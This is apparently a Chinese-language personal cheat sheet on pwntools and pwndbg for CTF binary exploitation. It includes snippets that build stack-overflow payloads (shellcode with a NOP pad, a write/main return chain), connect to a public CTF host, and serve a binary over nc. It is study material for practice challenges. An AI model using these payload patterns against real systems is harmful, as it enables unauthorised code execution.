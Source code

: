 pwndbg


## pwntools

[pwntools 命令行工具](https://zero-mk.github.io/2019/01/01/pwntools-Command%20Line%20Tools/)
[Link](https://www.jianshu.com/p/6e528b33e37a)
[Link](https://docs.pwntools.com/en/stable/timeout.html)

```py
# timeout
context.timeout = 30
```

### 本地启动

nc -vc ./fmt -kl 3333

然后其他机器就可以 nc ip port 连接了

### 怎样调试/配置

方法 1

```python
context(arch='amd64', os='linux', log_level='debug')
# arch影响 flat, pack, unpack 使用4Bytes还是8Bytes
sh = process('./pwn')
# gdb.attach(sh, 'b *0x1234')
gdb.attach(sh)
```

方法 2

```python
sh = process('./pwn')
raw_input('debug')
这时看pid，比如是 6533, 新建终端，
$gdb
$attach 6533
```

### 指令介绍

p32、p64 是 64/32 位代码 打包为二进制，u32、u64 是解包为二进制

**flat 模块能将 pattern 字符串和地址结合并且转为字节模式**

```python
payload = flat(cyclic(32), 0x804a060)
io.sendlijneafter(':', flat['a'*0x8c, e.plt['system'], 0, 0x804a024, 0, 0])
```

symbols

    ELF('./level3').symbols['main']
    ELF('./level3').sym['main']

gdb.attach(sh) # gdb 附加到调试

### 示例

```python
from pwn import *
context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息
#io = process('./level1')
io = remote('pwn2.jarvisoj.com', 9877) # 远程连接
text = io.recvline()[14: -2] # 获取返回值
# recvline(keepends=True) : 接收一行，keepends为是否保留行尾的\n
shellcode = asm(shellcraft.sh()) # pwntools生成的 sh 的shellcode
p64(0x400000) # 地址转 64 位二进制
p32(0x400000) # 地址转 32 位二进制
payload = shellcode.decode('latin') + '\x90' * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr).decode('latin')
io.send(payload)
io.interactive()
io.close()
```

从 write 返回 main

```python
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# payload = flat('a'*0x88, p64(syscall), p64(syscall)) # buuctf这题需要2个，不明白。好像是栈没对齐的原因
```

#### 输入字符

```python
io.sendlineafter('name', payload)

io.recvuntil("your name")
io.sendline("/bin/sh")

print(io.recvall())
```

#### 汇编转二进制、数字、字符转换等

```python
# python3
from pwn import *
print(asm('XCHG EAX,ESP\nRET\nMOV ECX,[EAX]\nMOV [EDX],ECX\nPOP EBX\nRET'.lower()).hex())
```

p32 - Packs an 32-bit integer

```python
>>> p32(0x8040000)
b'\x00\x00\x04\x08'
```

u32 使用 - Unpacks an 64-bit integer

```python
>>> u32('\x00\x00\x04\x08')
134479872
>>> hex(u32('\x00\x00\x04\x08'))
'0x8040000'
```

#### runshellcode

```python
from pwn import *
run_shellcode(a.encode())
```

### 相关知识

通过 ldd 查找 libc 共享库， 这里 python 需要用到 c 语言的标准动态库, srand 用到 libc.so.6

```sh
kali@kali:/mnt/hgfs/vmware$ ldd guess_num
        linux-vdso.so.1 (0x00007ffec67fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007faeab4e3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007faeab8c1000)
```

# FAQ

1. pwndbg Debugger always exiting
[Link](https://github.com/Gallopsled/pwntools/issues/1677) [Solution](https://github.com/Gallopsled/pwntools/commit/7ececc6bce24ccf3fe9c19c12b225e5e85d56afc)

# Article

[[分享] pwndbg+tmux真乃天作之合 ](https://bbs.kanxue.com/thread-276203.htm)
[baidu:IDA pwntools](https://www.baidu.com/s?wd=pwntools+ida+%E8%B0%83%E8%AF%95)
[IDA配合pwntool调试环境](https://zhuanlan.zhihu.com/p/347107006)
